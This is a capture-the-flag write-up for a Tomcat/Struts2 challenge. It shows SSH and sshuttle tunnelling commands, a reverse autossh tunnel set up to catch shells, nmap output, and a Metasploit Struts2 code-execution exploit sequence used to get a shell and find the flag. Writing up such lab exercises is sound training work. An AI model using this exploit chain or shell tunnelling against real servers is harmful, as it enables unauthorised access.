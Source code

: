 # 10 of Hearts - port 8080

No nice images unfortunately, but I was using this command so that I could view the webpage in my own browser:

`ssh ec2-user@52.91.216.20 -i metasploit_ctf_kali_ssh_key.pem -L 8080:172.16.4.85:8080`

There are many varations on that with other tools like `sshuttle`.

`sshuttle -ve "ssh -i metasploit_ctf_kali_ssh_key.pem" -r ec2-user@[redacted] --disable-ipv6 172.16.0.224/28; pfctl -f /etc/pf.conf
autossh -M 2222 -i metasploit_ctf_kali_ssh_key.pem -R :443:127.0.0.1:4444 root@[redacted]`

Nmap showed some information on the application.

```
Apache Tomcat/7.0.84
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
| http-title: Struts2 Showcase
|_Requested resource was showcase.action
```

Searching exploits in the Kali msfconsole we find an exploit to use. I remember having problems getting the default payload to work, but switching to the generic one allowed me arbitrary code execution. I sent a `nc` shell to myself using this.

```
use exploit/multi/http/struts2_code_exec_showcase
set targeturi /integration/saveGangster.action
set payload cmd/unix/generic
set cmd ls /usr/bin
/usr/local/tomcat/tmp/10_of_hearts
```

Once we had a shell on the box the flag could be found in the web directory `/usr/local/tomcat/tmp/10_of_hearts`.

![10 of hearts](10_of_hearts.png)